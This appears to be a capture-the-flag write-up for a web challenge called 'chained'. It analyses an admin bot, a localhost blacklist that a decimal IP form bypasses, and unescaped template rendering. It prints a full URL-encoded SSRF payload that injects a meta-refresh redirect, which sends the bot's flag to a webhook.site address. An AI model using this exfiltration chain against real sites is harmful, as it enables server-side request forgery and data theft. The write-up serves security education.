

### File analysis

The challenge provides 3 main files:

```text
index.html
app.py
admin-bot.js
```

#### 1. `admin-bot.js`

```js
export default {
    id: 'chained',
    name: 'chained',
    urlRegex: /^https:\/\/chained\.tjc\.tf\/admin\//,
    timeout: 10000,
    handler: async (url, ctx) => {
        const page = await ctx.newPage();
        await page.goto(url + flag, { timeout: 3000, waitUntil: 'domcontentloaded' });
        await sleep(5000);
    }
};
```

The admin bot only accepts URLs matching the regex:

```text
https://chained.tjc.tf/admin/
```

Most importantly, the bot will visit:

```js
url + flag
```

This means the flag is appended directly to the end of the URL we submit to the admin bot.

#### 2. `app.py`

```py
def isSafe(url):
    blacklist={'127', 'local', '2130706433', '017700000001', '::1', '0.0.0.0', '[::]', 'ffff', '0.0.0.0', '0x', '..', '%2e%2e', '@'}
    return all([i not in url.lower() for i in blacklist])
```

The application uses a blacklist to block localhost, however we can use a different decimal form of localhost, for example:

```text
2130706434
```

This form still points to `127.0.0.2`, which is loopback, but is not blocked by the blacklist.

The `/admin` route only allows requests coming from `127.0.0.1`.

```py
@app.route('/admin')
def js():
    if request.remote_addr != '127.0.0.1': return 'Access denied. Page only accessible from server side.'
    query = request.args.get("q", "")
    return query, 200, {'Content-Type': 'application/javascript'}
```

Accessing it directly from an external browser is blocked:

```text
Access denied. Page only accessible from server side.
```

But if we use SSRF from the server to call `/admin`, the request is counted as local, so the `remote_addr` check is bypassed.

#### 3. `index.html`

```html
<h3> {{ q | safe }} </h3>
```

The SSRF response is rendered with the `safe` filter, so the HTML is not escaped.

This allows us to inject HTML into the page through the SSRF response.

### Payload

Payload sent to the admin bot:

```text
https://chained.tjc.tf/admin/../?url=http%3A%2F%2F2130706434%3A5000%2Fadmin%3Fq%3D%253Cmeta%2520http-equiv%253Drefresh%2520content%253D0%253Burl%253Dhttps%253A%252F%252Fwebhook.site%252Fdde72542-7905-48e1-8dc6-d44aabfb5067%252F%253Fc%253D
```

Check the webhook; we see a new request with the query string:



### Flag

```text
tjctf{ch41n3d_0340e934135d}
```
